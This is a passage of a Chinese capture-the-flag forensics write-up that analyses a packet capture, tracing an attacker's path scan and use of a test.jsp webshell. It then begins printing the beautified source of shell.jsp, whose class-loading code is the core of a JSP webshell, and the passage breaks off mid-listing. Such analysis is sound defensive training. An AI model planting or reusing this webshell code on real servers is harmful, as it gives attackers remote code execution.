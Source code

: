 那么答案就是**80,888,8888**

### hard web\_2

> 问题内容：服务器中根目录下的 flag 值是多少？

因为看到了 80 端口开放，我们看看 web 服务发生了什么[![](assets/1702520939-7bc6866d57b2774d7fa61b5211920852.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155406-ca3e6a12-998c-1.png)  
可以看到黑客对 web 服务进行路径扫描，服务器返回了大量的 404 状态，因此我们通过过滤器语法`http.request or http.response.code == 200`查看黑客对服务器的请求以及（如果存在）web 页面的响应  
[![](assets/1702520939-4e87a89dc24767eb8f5998d7292d5d35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155438-ddbe33e2-998c-1.png)  
可以看到服务器存在一个`test.jsp`的 webshell，黑客执行了一些命令，在最后查看了`shell.jsp`的内容  
[![](assets/1702520939-cbc83b1ae163efd874f74635d08d1f21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213155520-f63d9296-998c-1.png)

我们查看一下 shell.jsp 的内容，稍微代码美化一下可以得到如下

```bash
<%! String xc = "748007e861908c03";

    class X extends ClassLoader {
        public X(ClassLoader z) {
            super(z);
        }

        public Class Q(byte[] cb) {
            return super.defineClass(cb, 0, cb.length);
        }
    }

    public byte[] x(byte[] s, boolean m) {
```